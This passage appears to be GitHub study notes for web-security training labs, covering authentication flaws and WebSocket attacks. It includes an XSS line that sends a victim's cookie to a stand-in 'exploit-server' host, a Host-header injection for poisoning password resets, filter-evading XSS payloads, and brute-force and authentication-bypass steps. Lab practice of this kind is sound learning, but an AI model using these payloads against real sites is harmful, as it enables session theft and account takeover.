 ### 10. Offline password cracking
>Steal cookie in comment section via XSS: ```<script>document.write('<img src="https://exploit-server?c='+document.cookie+'" />');</script>```
>Crack MD5 hash via john the ripper or web services


### 11. Password reset poisoning via middleware
```
While processing forgot password set new header:
X-Forwarded-Host: exploit-server 
It will process Host Header Injection
```

### 12. Password brute-force via password change
```
While processing password changing, observe that you can change nickname.
Change it to victim's one and brute his password
```

### Business logic Authentication vulnerability  
1. Authentication bypass via flawed state machine  
If you got the role-selector page, just turn On the Interception and drop this request.  
![image](https://user-images.githubusercontent.com/58632878/224716441-e3631b3f-472c-46aa-83b5-0c471447dbe3.png)  
![image](https://user-images.githubusercontent.com/58632878/224716833-d96a1ca7-105d-4de8-9bb2-997e53ac1c3b.png)  

  
2. Weak isolation on dual-use endpoint  
Delete current-password parameter and change username to administrator  


# WebSockets
## Approach  
An interesting topic, where the first two labs are quite clear - we call xss on the chat support side, and in the third we get the entire history of the support chat via CSRF.  
Arises at **Live Chat** page.  
![image](https://user-images.githubusercontent.com/58632878/224719638-45789009-570b-4755-b44e-ddb7fa3f7f43.png)  


## Labs
### 1. Manipulating WebSocket messages to exploit vulnerabilities
>Write something in Live Chat. Go to WebSocket History tab in Burp, catch you request and send it to Repeater. Change your message to ```<img src=123 onerror=alert()>```

### 2. Manipulating the WebSocket handshake to exploit vulnerabilities
```
X-Forwarded-For: 1.1.1.1
<img src=1 oNeRrOr=alert`1`>
```
